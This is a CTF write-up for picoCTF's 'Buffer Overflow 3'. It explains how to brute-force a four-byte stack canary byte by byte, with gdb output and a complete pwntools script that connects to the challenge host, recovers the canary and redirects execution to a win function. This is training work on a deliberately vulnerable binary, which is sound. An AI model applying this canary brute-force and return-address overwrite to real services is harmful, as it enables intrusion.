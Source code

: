 ```yaml
---
title: "Buffer Overflow 3"
date: 2025-10-20T22:42:46+05:30
draft: False
---
```


As usual, we are given compiled binary, its source and the host and port where challenge is hosted. This given challenge simulates a stack canary which we have to bypass. Well we could leak the canary code, but here we will take the bruteforce approach.First we need to create flag.txt with a flag and canary.txt file with 4 byte canary string. I chose the word CANA as the canary string for testing locally. The size of canary is defined in the source code as `#define CANARY_SIZE 4`. The application reads the canary string from the canary.txt file and places it somewhere in memory.


```bash
[*] '/home/ankit/writeups/buff_ovrfl_3/vuln'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

Running this in gdb we get 

```bash
gef➤  r
Starting program: /home/ankit/writeups/buff_ovrfl_3/vuln
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
How Many Bytes will You Write Into the Buffer?
> 64
Input> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
***** Stack Smashing Detected ***** : Canary Value Corrupt!
[Inferior 1 (process 9905) exited normally]
```

### Finding the Canary

Canary starts at offset 64. Bruteforce it byte-by-byte by sending 64 * 'A' + known_prefix + trial_byte.
If the program replies "Ok... Now Where's the Flag?" the trial byte is correct; if it crashes with `*** Stack Smashing Detected ***** : Canary Value Corrupt!` it’s wrong. Now all we have to do is repeat, appending each discovered byte to the prefix and increasing the total input length by 1 until the full canary is recovered.
After hit and trail we get to something like this, here we can conclude that passing the canary after the offset doesnt end in a `*** Stack Smashing Detected ***** : Canary Value Corrupt!`, which means everything is working.

```bash
gef➤  r
Starting program: /home/ankit/writeups/buff_ovrfl_3/vuln
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
How Many Bytes will You Write Into the Buffer?
> 68
Input> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACANA
Ok... Now Where's the Flag?
[Inferior 1 (process 10357) exited normally]
```

Now if we try to read the first 68 bytes from the position `ebp-0x50`, essentially dumping the `ebp` after putting a breakpoint, we find this.

```asm
gef➤  x/68bx $ebp-0x50
0xffffcca8:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0xffffccb0:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0xffffccb8:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0xffffccc0:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0xffffccc8:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0xffffccd0:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0xffffccd8:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0xffffcce0:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0xffffcce8:	0x43	0x41	0x4e	0x41
```

The `0x41`s from `0xffffcca8` to `0xffffcce0` are basically `A*68`. And the rest `0xffffcce8` is the canary value.

### Finally...

With all the knowledge we have gathered poking around, we can finally write the exploit script. Also I wanted to convey that this following code isn't written by me, my code looked awful and barely worked. So I scraped it off of a [blog](https://flippingbitz.com/post/picoctf-bo3/). So yeah, thanks hoodie guy.

```python
from pwn import *
import sys
import string
import argparse


canary_offset = 64
canary_size = 4

canary = b""

chall = ELF("./vuln")


def get_process():
    return remote('saturn.picoctf.net', 55800)


for i in range(1,5):

        for canary_char in string.printable:

                r = get_process()

                r.sendlineafter(b"> ", b"%d" % (canary_offset + i))


                payload = b"A"* canary_offset + canary
                payload += canary_char.encode()


                r.sendlineafter(b"> ", payload)

                resp = r.recvall()

                print (resp)

                if b"Now Where's the Flag" in resp:
                        canary += canary_char.encode()
                        break
                r.close()

if not len(canary) == 4:
        print ("[-] Failed to find canary!")
        sys.exit()

else:
        print ("[+] Found canary : %s" % canary.decode())

win = 0x8049336

payload = b"A" * 64         
payload += canary
payload += b"A" * 16          
payload += p32(win)


r = get_process()
r.sendlineafter(b"> ", b"%d" % len(payload))

r.sendlineafter(b"> ", payload)
resp = r.recvall()
print (resp)

```

Letting this run for about 5 mins would get you your flag. Good luck.
   

